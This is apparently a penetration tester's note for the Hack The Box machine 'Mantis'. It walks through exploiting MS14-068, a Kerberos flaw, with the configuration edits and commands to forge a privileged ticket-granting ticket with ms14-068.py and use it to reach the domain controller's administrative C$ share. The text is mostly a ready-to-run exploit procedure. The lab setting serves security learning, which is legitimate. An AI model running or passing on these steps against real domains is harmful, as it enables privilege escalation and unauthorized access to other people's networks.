 MS14-068

https://zachgrace.com/posts/exploiting-ms14-068/
https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html
https://0xdf.gitlab.io/2020/09/03/htb-mantis.html

**Ippsec video -> Mantis**

* * *

## **STEPS**

**Add target DNS server to resolv.conf**

# Generated by NetworkManager

search localdomain
nameserver 10.10.10.52
nameserver 192.168.18.2

**Modify /etc/krb5.conf to match the target server**

[libdefaults]
default_realm = HTB.LOCAL

[realms]
htb.local = {
kdc = mantis.htb.local:88
admin_server = mantis.htb.local
default_domain = HTB.LOCAL
}

[domain_realm]
.domain.internal = HTB.LOCAL
domain.internal = HTB.LOCAL

**Synchronise time to the target server **
**
**
sudo rdate -n mantis.htb.local

**Try to generate a kerberos ticket with the target user's name**
**
**
kinit james
klist

**Try to connect to the admin share on the target server (it should not work because we are still connecting as the low privilege user)**

**
**
smbclient -W HTB.LOCAL  //mantis/c$ -k

**Run MS14-068 script (check the toolbox folder)**

Before running the command, be sure to get the correct SID from rpcclient.

python2.7 ms14-068.py -u james@HTB.LOCAL -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis

**Move the forged ticket to the /tmp folder with correct UID at the end**

cp TGT_james@HTB.LOCAL.ccache /tmp/krb5cc_1001

**Try to connect the admin share again**
**
**
smbclient -W HTB.LOCAL  //mantis/c$ -k

**If it doesn't work, be sure to double check the resolv.conf file**
